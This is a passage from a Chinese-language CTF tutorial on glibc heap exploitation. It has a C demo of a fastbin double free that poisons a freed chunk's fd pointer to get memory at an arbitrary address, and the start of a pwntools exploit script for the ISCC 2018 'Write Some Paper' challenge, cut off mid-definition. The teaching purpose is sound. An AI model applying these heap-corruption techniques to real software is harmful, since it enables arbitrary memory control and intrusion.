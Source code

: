```c
    setbuf(stdin,NULL);  //关闭输入缓冲区
    void *q[8]={0};
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;
    for(int i = 0 ; i < 8 ;i++){
		q[i]=malloc(0x10);
    }
    for(int i = 0 ; i < 7 ;i++){
		free(q[i]);  //填充tcachebin
    }
    bss_chunk.size=0x21;
    chunk1=calloc(1,0x10); //申请堆块
    chunk2=calloc(1,0x10); //申请堆块

    free(chunk1); //double free
    free(chunk2);
    free(chunk1);
		//chunk1->chunk2->chunk1
    chunk_a=calloc(1,0x10); //申请chunk1后，现在chunk1可写：chunk2->chunk1->bss_chunk
    *(long long *)chunk_a=&bss_chunk; //更改chunk1的fd指针
    calloc(1,0x10); //申请chunk2
    calloc(1,0x10); //申请chunk1
    chunk_b=calloc(1,0x10); //申请bss_chunk
    printf("%p\n",chunk_b); //达到控制任意内存地址
    return 0;
}
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1618904686761-356d7c1a-5998-4d85-8068-8a57a32cd871.png)

再经过第34行代码之后，chunk1处于“薛定谔状态”，我们将chunk1称之为“薛定谔堆块”，也就是说chunk1即存在malloc状态又存在free状态（不好意思，这个概念我编的），一个小总结如下：

不要只考虑使用fastbin dup，如果某个堆块free一次后其fd指针仍可篡改，直接篡改为target然后malloc两次就行了，总之要灵活pwn，一个例子如下：

[PWN入门（3-7-3）-fastbin_attack中的fastbin_double_free（例题）](https://www.yuque.com/cyberangel/rg9gdm/tgis8x)

iscc 2018 Write Some Paper：glibc 2.23

```python
from pwn import *
context.log_level='debug'

'''
    Arch:     amd64-64-little 
    RELRO:    Partial RELRO #我们可以覆写got.plt表（即got表）
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
'''
#open partial relro ,so wo can overwrite got.plt
p=process('./paper')
elf=ELF('./paper')
def choose(choice):
    p.sendline(str(choice))
def add_paper(index,size,content):
    choose(1)
    p.recvuntil('Input the index you want to store(0-9):')
    p.sendline(str(index))
    p.recvuntil('How long you will enter:')
    p.sendline(str(size))
    p.recvuntil('please enter your content:')
    p.sendline(str(content))
def delete_paper(index):
```